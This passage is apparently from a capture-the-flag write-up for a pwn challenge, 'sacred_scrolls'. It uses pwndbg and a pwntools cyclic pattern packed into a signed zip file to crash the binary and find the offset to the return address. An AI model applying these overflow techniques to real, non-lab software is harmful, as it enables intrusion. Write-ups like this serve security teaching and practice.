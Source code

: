 No libc leak required due to no PIE + static linking of useful strings/symbols.

### Find the offset to reach RIP with cyclic

First with pwndbg, start the binary:

```c
└──╼ $gdb ./sacred_scrolls 
...
pwndbg> set follow-fork-mode parent
pwndbg> run
...
Enter your wizard tag: notagain

Interact with magic library notagain

1. Upload ⅀ ℙ ∉ ⎳ ⎳
2. Read   ⅀ ℙ ∉ ⎳ ⎳
2. Cast   ⅀ ℙ ∉ ⎳ ⎳
3. Leave

>> 
```

In another shell, let's craft a zip file ready to be called for the read function:

```c
└──╼ $echo -ne "\xf0\x9f\x91\x93\xe2\x9a\xa1$(pwn cyclic 1000)" > spell.txt && zip spell.zip spell.txt
  adding: spell.txt (deflated 61%)
```

(Don't forget the signature, else the read function will fail).

Now in pwndbg let's try to read it!

```c
>> 2
[Detaching after vfork from child process 640130]
Archive:  spell.zip
replace spell.txt? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
  inflating: spell.txt               

⅀ ℙ ∉ ⎳ ⎳: 👓⚡aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabx`����

1. Upload ⅀ ℙ ∉ ⎳ ⎳
2. Read   ⅀ ℙ ∉ ⎳ ⎳
2. Cast   ⅀ ℙ ∉ ⎳ ⎳
3. Leave

>> 3
```

Oops, SIGSEGV detected:
